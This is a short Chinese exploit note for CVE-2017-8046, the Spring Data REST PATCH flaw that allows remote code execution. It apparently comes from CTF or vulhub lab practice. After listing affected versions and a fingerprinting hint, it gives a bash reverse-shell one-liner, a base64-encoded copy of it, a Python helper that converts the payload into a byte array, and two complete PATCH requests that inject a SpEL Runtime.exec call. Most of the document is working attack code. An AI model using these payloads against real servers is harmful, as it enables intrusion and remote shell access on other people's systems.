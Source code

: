 CVE-2017-8046
Spring-data-rest服务器在处理PATCH请求时，攻击者可以构造恶意的PATCH请求并发送给spring-date-rest服务器，通过构造好的JSON数据来执行任意Java代码。


Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
Spring Boot version ≤ 2.0.0M4
Spring Data release trains < Kay-RC3

特征spring，有/api目录
响应如：
```
{
"_links": {
"people": {
"href": "https://xx/api/people{?page,size,sort}",
"templated": true
}
```

漏洞利用
```
bash -i >& /dev/tcp/ip/port 0>&1
base64一下：

# 自己改弹shell的命令
payload = b'bash -c {echo,YmFzaCAtaSAmPi9kZXYvdGNwL3gueC54LngvMjMzMyA8JjE=}|{base64,-d}|{bash,-i}'

# 将payload转换为字节码字符串
bytecode = ','.join(str(i) for i in list(payload))

# 打印字节码字符串
print(bytecode)
```
```
PATCH /api/people/1 HTTP/1.1
Host: 81f61eb8-42bb-4423-824c-88573a92ebaa.challenge.ctf.show:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/json-patch+json
Upgrade-Insecure-Requests: 1
Content-Length: 440

[
    {
        "op": "replace",
        "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{上面生成的一串数字}))/lastName",
        "value": "vulhub"
    }
]
```

```
PATCH /customers/1 HTTP/1.1
Host: 192.168.101.133:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json-patch+json
Content-Length: 202

[{ "op": "replace", "path": "T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{9}))/lastname", "value": "vulhub" }]
```